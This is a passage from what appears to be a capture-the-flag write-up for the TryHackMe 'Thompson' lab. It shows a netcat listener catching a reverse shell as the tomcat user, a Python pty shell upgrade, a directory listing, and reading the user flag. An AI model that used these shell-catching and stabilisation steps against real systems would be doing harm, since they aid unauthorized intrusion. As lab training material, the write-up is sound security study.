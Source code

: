 Finally 
```sh
┌──(cracker㉿carcker)-[~/Desktop/THM/thompson]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.252] from (UNKNOWN) [10.10.224.113] 36786
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/$ export TERM=xterm-256color

export TERM=xterm-256color
tomcat@ubuntu:/$ 
tomcat@ubuntu:/$ ^Z
zsh: suspended  nc -lvnp 4444
```
```sh                                                                                                                                   
┌──(cracker㉿carcker)-[~/Desktop/THM/thompson]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

tomcat@ubuntu:/$ ls -la
total 92
drwxr-xr-x 22 root root  4096 Aug 14  2019 .
drwxr-xr-x 22 root root  4096 Aug 14  2019 ..
drwxr-xr-x  2 root root  4096 Aug 14  2019 bin
drwxr-xr-x  3 root root  4096 Aug 14  2019 boot
drwxr-xr-x 17 root root  3700 Aug 10 07:55 dev
drwxr-xr-x 92 root root  4096 Aug 23  2019 etc
drwxr-xr-x  3 root root  4096 Aug 14  2019 home
lrwxrwxrwx  1 root root    33 Aug 14  2019 initrd.img -> boot/initrd.img-4.4.0-159-generic
lrwxrwxrwx  1 root root    33 Aug 14  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x 19 root root  4096 Aug 14  2019 lib
drwxr-xr-x  2 root root  4096 Aug 14  2019 lib64
drwx------  2 root root 16384 Aug 14  2019 lost+found
drwxr-xr-x  4 root root  4096 Aug 14  2019 media
drwxr-xr-x  2 root root  4096 Feb 26  2019 mnt
drwxr-xr-x  3 root root  4096 Aug 14  2019 opt
dr-xr-xr-x 86 root root     0 Aug 10 07:55 proc
drwx------  3 root root  4096 Aug 14  2019 root
drwxr-xr-x 17 root root   520 Aug 10 07:55 run
drwxr-xr-x  2 root root 12288 Aug 14  2019 sbin
drwxr-xr-x  2 root root  4096 Feb 26  2019 srv
dr-xr-xr-x 13 root root     0 Aug 10 07:55 sys
drwxrwxrwt 10 root root  4096 Aug 10 10:44 tmp
drwxr-xr-x 10 root root  4096 Aug 14  2019 usr
drwxr-xr-x 11 root root  4096 Aug 14  2019 var
lrwxrwxrwx  1 root root    30 Aug 14  2019 vmlinuz -> boot/vmlinuz-4.4.0-159-generic
lrwxrwxrwx  1 root root    30 Aug 14  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
```

Now you can get user.txt
```sh
cd /home/jack/
cat user.txt
```

---